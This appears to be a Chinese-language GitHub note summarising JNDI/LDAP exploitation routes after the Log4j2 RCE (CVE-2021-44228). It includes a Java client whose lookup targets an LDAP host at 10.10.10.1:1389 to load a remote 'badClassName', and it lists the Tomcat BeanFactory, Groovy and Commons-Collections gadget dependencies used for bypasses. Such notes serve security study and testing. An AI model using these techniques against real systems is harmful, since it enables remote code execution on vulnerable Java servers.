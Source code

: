

### 缘起Log4j2 

因为 Log4j2 RCE(CVE-2021-44228)的出现，所以顺便把JNDI+LDAP的利用姿势一并总结。

### JNDI via LDAP

#### 0x01 理想环境(trustURLCodebase == true) 

LDAP客户端：LDAPClient.java
```java
package ldap;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class LDAPClient {
    public static void main(String[] args) throws NamingException {
        /**
         * 注意：JDK 11.0.1、8u191、7u201、6u211 com.sun.jndi.ldap.object.trustURLCodebase 默认为false
         * 所以：在进行JNDI利用时，需要注意目标使用的JDK版本
         */
        Context ctx = new InitialContext();
        ctx.lookup("ldap://10.10.10.1:1389/badClassName");
    }
}
```

LDAP服务端：[LDAPKit](https://github.com/EmYiQing/LDAPKit) （改了一下，加了一些链进去）

![image](https://user-images.githubusercontent.com/55024146/145824043-3627762c-f77a-46e5-89e1-db3d60974bf8.png)

测试效果：

![image](https://user-images.githubusercontent.com/55024146/145824238-f1604171-0d61-4c23-bcd9-0de3391272a6.png)

#### 0x02 Tomcat v8+

Tomcat v8+
- org.apache.naming.factory.BeanFactory
- javax.el.ELProcessor

依赖环境
```xml
<dependency>
    <groupId>org.apache.tomcat.embed</groupId>
    <artifactId>tomcat-embed-core</artifactId>
    <version>8.5.61</version>
</dependency>
````


#### 0x03 Groovy （

依赖环境
```xml
<dependency>
    <groupId>org.codehaus.groovy</groupId>
    <artifactId>groovy-all</artifactId>
    <version>1.5.0</version>
</dependency>
```


#### 0x04 javaSerializedData属性+Gadgets(如CC链)

依赖环境
```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

起一个LDAP + CC05的服务端：
![image](https://user-images.githubusercontent.com/55024146/145829752-3b2cdc81-06ef-4cb2-8d57-258af89604fc.png)

测试效果：

![image](https://user-images.githubusercontent.com/55024146/145829956-4d622421-53d3-40d8-a659-fa3328f76623.png)






